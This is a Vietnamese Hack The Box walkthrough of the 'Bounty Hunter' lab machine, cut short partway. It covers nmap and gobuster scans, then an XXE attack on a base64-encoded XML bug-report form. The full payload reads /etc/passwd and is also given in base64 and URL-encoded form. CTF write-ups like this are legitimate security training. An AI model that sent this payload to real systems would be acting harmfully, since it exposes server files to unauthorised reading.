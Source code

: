 # **Bounty hunter HTB**

Đầu tiên mình vẫn đi theo hướng scan nmap trước xong dạo 1 vòng quanh website kiểm tra xem có lỗ hổng nào.

Scan nmap:
```
nmap -sC -p- -sV -T3 10.10.11.100
```
Scan gobuster:
```
gobuster dir -u http://10.10.11.100:80 -w /usr/share/wordlists/dirbs/common.txt
```
Thì cũng không ra thông tin gì quan trọng cho lắm.
Sau đó mở đến phần portal thì ra đến phần 
![](img/2021-10-15-00-34-41.png)

và mình bật f12 lên và nhập thông tin linh tinh vào thôi
![](img/2021-10-15-00-35-48.png)

Thì thấy là thằng này nó gửi đến 1 trang gì đó trông rất mờ ám. Nhưng cũng không có gì. Giờ thì sẽ request qua burpsuite để theo tiện dùng repeater.

Thì vừa request post lên thấy burpsuite decode base 64 ra được là data có dạng xml:
![](img/2021-10-15-00-38-59.png)

=> Nghĩ ngay đến tấn công XXE mặc dù là tấn công kiểu này thực tế thì ít cơ mà :V chơi ctf thì cứ nghĩ đến thôi.

Mình thử thử 1 số payload XXE đơn giản:
```
<?xml  version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY dangdh11 SYSTEM "file:///etc/passwd"> ]>
        <bugreport>
        <title>&dangdh11;</title>
        <cwe>hehe</cwe>
        <cvss>hehe</cvss>
        <reward>hehe</reward>
        </bugreport>
```
encode base 64:
```
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IlVURi04Ij8+CjwhRE9DVFlQRSBmb28gWyA8IUVOVElUWSBkYW5nZGgxMSBTWVNURU0gImZpbGU6Ly8vZXRjL3Bhc3N3ZCI+IF0+CiAgICAgICAgPGJ1Z3JlcG9ydD4KICAgICAgICA8dGl0bGU+JmRhbmdkaDExOzwvdGl0bGU+CiAgICAgICAgPGN3ZT5oZWhlPC9jd2U+CiAgICAgICAgPGN2c3M+aGVoZTwvY3Zzcz4KICAgICAgICA8cmV3YXJkPmhlaGU8L3Jld2FyZD4KICAgICAgICA8L2J1Z3JlcG9ydD4=
```
encode url (Vì đoạn cuối data mẫu gửi lên có %3D)
```
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IlVURi04Ij8%2BCjwhRE9DVFlQRSBmb28gWyA8IUVOVElUWSBkYW5nZGgxMSBTWVNURU0gImZpbGU6Ly8vZXRjL3Bhc3N3ZCI%2BIF0%2BCiAgICAgICAgPGJ1Z3JlcG9ydD4KICAgICAgICA8dGl0bGU%2BJmRhbmdkaDExOzwvdGl0bGU%2BCiAgICAgICAgPGN3ZT5oZWhlPC9jd2U%2BCiAgICAgICAgPGN2c3M%2BaGVoZTwvY3Zzcz4KICAgICAgICA8cmV3YXJkPmhlaGU8L3Jld2FyZD4KICAgICAgICA8L2J1Z3JlcG9ydD4%3D
```
:D hè hè gửi lên thì ăn ngay:
![](img/2021-10-15-00-43-16.png)

> Nhưng mà hiện tại đến đây thì tắc rồi vì chưa ra hướng gì tiếp theo :| 

> updating ...